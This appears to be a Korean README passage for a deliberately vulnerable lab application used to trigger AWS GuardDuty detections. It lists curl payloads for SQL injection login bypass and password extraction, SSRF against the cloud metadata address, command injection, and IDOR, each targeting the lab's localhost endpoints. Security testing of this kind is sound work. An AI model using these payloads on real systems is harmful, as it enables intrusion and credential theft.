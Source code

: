 ### 3. 접근 포인트
- **웹 인터페이스**: http://your-server-ip:8000
- **API 문서**: http://your-server-ip:8000/docs
- **상태 확인**: http://your-server-ip:8000/health

## 📊 취약점 카테고리

### 1. SQL 인젝션 (사용자 관리)
**위치**: `/api/v1/users/*`

```bash
# 인증 우회
curl -X POST "http://localhost:8000/api/v1/users/login" \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\''--", "password": "anything"}'

# 데이터 추출
curl "http://localhost:8000/api/v1/users/search?q='\'' UNION SELECT username,password FROM users--"
```

**GuardDuty 탐지**: 데이터베이스 공격 패턴

### 2. 서버 측 요청 위조 (SSRF)
**위치**: `/api/v1/exploit/ssrf`

```bash
# AWS 메타데이터 서비스 접근
curl "http://localhost:8000/api/v1/exploit/ssrf?url=http://169.254.169.254/latest/meta-data/"

# 내부 서비스 스캔
curl "http://localhost:8000/api/v1/exploit/ssrf?url=http://internal-service:8080"
```

**GuardDuty 탐지**: UnauthorizedAPICall:EC2/MaliciousIPCaller

### 3. 명령어 인젝션
**위치**: `/api/v1/exploit/command-injection`

```bash
# 시스템 명령어 실행
curl "http://localhost:8000/api/v1/exploit/command-injection?cmd=whoami"

# 파일 목록 확인
curl "http://localhost:8000/api/v1/exploit/command-injection?cmd=ls -la"
```

**GuardDuty 탐지**: 의심스러운 명령어 실행

### 4. 권한 상승
**위치**: `/api/v1/admin/*`

#### IDOR - 사용자 정보 접근
```bash
# 다른 사용자 정보 접근
curl "http://localhost:8000/api/v1/admin/users?user_id=1"
```
